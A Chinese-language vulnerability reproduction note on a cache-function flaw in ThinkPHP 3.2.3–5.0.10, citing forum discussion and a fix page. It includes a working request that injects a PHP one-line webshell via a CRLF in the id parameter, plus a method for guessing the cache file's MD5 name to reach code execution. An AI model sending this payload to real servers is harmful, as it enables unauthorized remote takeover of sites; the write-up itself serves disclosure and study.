

# ThinkPHP_3.2.3-5.0.10_缓存函数设计缺陷

## Affected Version

- ThinkPHP_3.2.3-5.0.10

## PoC

该漏洞复现起来比较复杂，虽然需要同时满足很多条件才可以导致GetShell，不过风险确实存在，对于黑客来说任何一点细微的风险都有可能是整个攻击链条中重要的一环。

根据先知论坛上dalao的讨论，触发代码执行漏洞至少需要同时满足以下条件：

- 1. 开启缓存功能
- 2. 缓存文件所在目录可以从浏览器直接访问
- 3. 需要能够猜解出缓存的文件名（文件名生成有一定规律）
- 4. 同时可以控制缓存文件里的内容（比如通过写入到数据库进而生成缓存文件）

个人在复现这个漏洞的时候发现 5.0.x 版本的 TP 并不能直接访问到缓存文件所在的目录，所以默认情况下不能触发该漏洞。在 3.2.x 版本是可以直接从浏览器访问到缓存文件的。

为了触发TP 3.2.3 Demo 的 GetShell 漏洞，先发起如下请求：

`http://localhost/tp3.2.3/index.php/Home/Index/get?id=%0D%0Aeval($_POST[x]);//`

下一步需要对缓存的文件名进行猜解，文件名的生成规则是缓存的key的MD5，所以黑盒情况下可以先算一些关键词的MD5，然后批量HEAD请求，发现响应200则说明存在这个缓存文件，或者结合源代码泄露漏洞进行利用，在这里我们直接从源码文件看到生成的文件：

文件名 也正是 缓存 key （name） 的MD5 值：

`md5(name,32) = b068931cc450442b63f5b3d276ea4297`

最后，可以看到 b068931cc450442b63f5b3d276ea4297.php 的 内容为之前写进去的一句话木马：

## References

1. https://xianzhi.aliyun.com/forum/topic/99（漏洞详情）
2. http://www.thinkphp.cn/topic/51162.html（修复方案）